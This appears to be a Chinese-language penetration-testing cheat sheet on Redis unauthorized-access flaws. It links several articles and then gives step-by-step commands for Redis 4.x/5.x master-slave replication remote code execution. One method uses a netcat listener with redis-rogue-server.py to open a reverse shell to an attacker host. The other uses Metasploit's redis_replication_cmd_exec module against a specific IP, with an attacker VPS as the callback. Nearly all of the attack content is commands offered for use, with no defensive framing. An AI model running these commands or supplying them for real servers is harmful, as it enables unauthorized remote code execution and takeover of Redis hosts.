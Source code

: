 [Redis未授权访问漏洞(windows环境](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484286&idx=1&sn=6250d89d18ea635bda32e815fdcc5f6d)
[Redis未授权计划任务反弹shell](https://zhuanlan.zhihu.com/p/582582342)
[Redis的漏洞总结(建议收藏)](https://mp.weixin.qq.com/s/wfncezg7Xe4Z4VP7lMxc7Q)
[Redis系列漏洞总结](https://mp.weixin.qq.com/s/O5JVZtTifDri8xGJA08AWA)

# Redis主从复制RCE redis 4.X/5.X

1. by redis-rogue-server.py
```bash
nc -lvvp 6381
python3 redis-rogue-server.py --rhost 192.168.127.129  --rport 6379 --lhost 192.168.127.134 --lport 6381
# reverse shell
# What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.127.134
Reverse server port: 6381
## [i]nteractive shell 也可以
```

2. by msf
```
sudo msfconsole
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS 47.92.135.138
set SRVHOST VPS_IP
set LHOST VPS_IP
exploit
```